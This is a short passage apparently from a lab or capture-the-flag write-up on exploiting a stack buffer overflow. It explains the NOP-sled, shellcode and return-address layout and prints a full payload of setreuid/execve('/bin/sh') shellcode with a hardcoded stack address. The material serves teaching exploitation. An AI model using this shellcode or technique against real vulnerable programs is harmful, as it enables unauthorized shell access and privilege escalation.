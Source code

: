 ![image-20220424174131866](../images/image-20220424174131866.png)



- Trying with larger payload (at length >= 140) happen to fully overwrite the return address. 

![image-20220424175858948](../images/image-20220424175858948.png)



### Exploitation

- We want to inject a payload on the format:

  ```
  [NOP]...[NOP][EXPLOIT][RET_ADDR]..[RET_ADDR]
  ```

- Where:

  - `EXPLOIT` is a little-endian exploit payload that runs a shell (e.g., `/bin/sh`)
  - `NOP = '\x90'`, there should be `buffer_length - exploit_length = 128 - 46 = 82` of them.
  - `RET_ADDR` is little-endian address that points somewhere in the middle of the `NOP`s, we can put a number of such address to make sure it'll work even when stuff move around.

- Payload used:

  ```assembly
  run $(python2 -c 'print "\x90" * 82 + "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x08\xf0\xff\xbf" * 20')
  ```

- Moment of truth:

![image-20220424164859027](../images/image-20220424164859027.png)
